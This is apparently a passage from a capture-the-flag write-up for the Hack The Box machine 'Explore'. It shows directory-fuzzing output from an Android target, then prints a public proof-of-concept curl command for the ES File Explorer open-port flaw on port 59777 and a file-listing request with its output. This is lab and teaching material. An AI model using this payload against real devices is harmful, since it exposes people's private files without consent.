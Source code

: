 ```bash
android                 [Status: 301, Size: 85, Words: 3, Lines: 1]
backups                 [Status: 301, Size: 85, Words: 3, Lines: 1]
download                [Status: 301, Size: 87, Words: 3, Lines: 1]
movies                  [Status: 301, Size: 83, Words: 3, Lines: 1]
music                   [Status: 301, Size: 81, Words: 3, Lines: 1]
notifications           [Status: 301, Size: 97, Words: 3, Lines: 1]
pictures                [Status: 301, Size: 87, Words: 3, Lines: 1]
podcasts                [Status: 301, Size: 87, Words: 3, Lines: 1]
ringtones               [Status: 301, Size: 89, Words: 3, Lines: 1]
user.txt                [Status: 200, Size: 33, Words: 1, Lines: 2]
```
And we can also see user.txt so you can get it already.
Again Looking in my phone and comparing we are missing some directories in which one of the is DCIM which is used for storing images and stuff so something could be intresting there and backup also looks convincing.
Now let's fuzz the endpoints that we think could be useful so let's make a list of that.
the endpoint that is intresting.
```bash
backup
DCIM
downloads
pictures
podcast
```
so let's try enumerating this FUZZING will take long time so let's find try to find a different way to enumerate directory.
Googling to find a way I stumbled upon this article from portswigger which explained the vulnerability and also had the POC in that article. 
https://portswigger.net/daily-swig/android-file-manager-app-exposing-user-data-through-open-port
POC link: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
Checking the POC we can find the payload
```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```
Where we can execute our command.
![[Pasted image 20210627100107.png]]
looking from above picture we can find some basic command so let's try them.
```json
kali@kali:~/HackTheBox/Explore$ curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://explore.htb:59777
[

{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 

{"name":"vndservice_contexts", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 

{"name":"vendor_service_contexts", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"vendor_seapp_contexts", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"vendor_property_contexts", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 

{"name":"vendor_hwservice_contexts", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 

{"name":"vendor_file_contexts", "time":"6/26/21 09:31:19 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 

```